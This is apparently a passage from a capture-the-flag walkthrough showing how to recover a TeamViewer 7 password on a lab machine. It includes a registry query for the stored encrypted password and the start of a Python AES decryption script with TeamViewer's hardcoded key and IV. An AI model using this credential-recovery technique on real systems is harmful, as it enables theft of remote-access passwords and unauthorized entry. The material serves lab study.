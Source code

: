 
<h5 align="left">Method 2:</h5>

If we enumerate the fille system we will see that TeamViewer7 is installed. Teamviewer is a remote desktop sharing application that stores it's passwords in the windows registry accessable to low privileged users and encrypted with a known key. There is a detailed writeup <a href="https://whynotsecurity.com/blog/teamviewer/">here</a> as well as a python script to decrypt the password once retrieved from the registery. We can view the registry entry with

```
reg query hklm\software\wow6432node\teamviewer\version7
```

![teamviewer registry](/assets/img/walkthroughs/remote_teamviewerregistry.png)

If we then run the python decryption script from the above site

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
```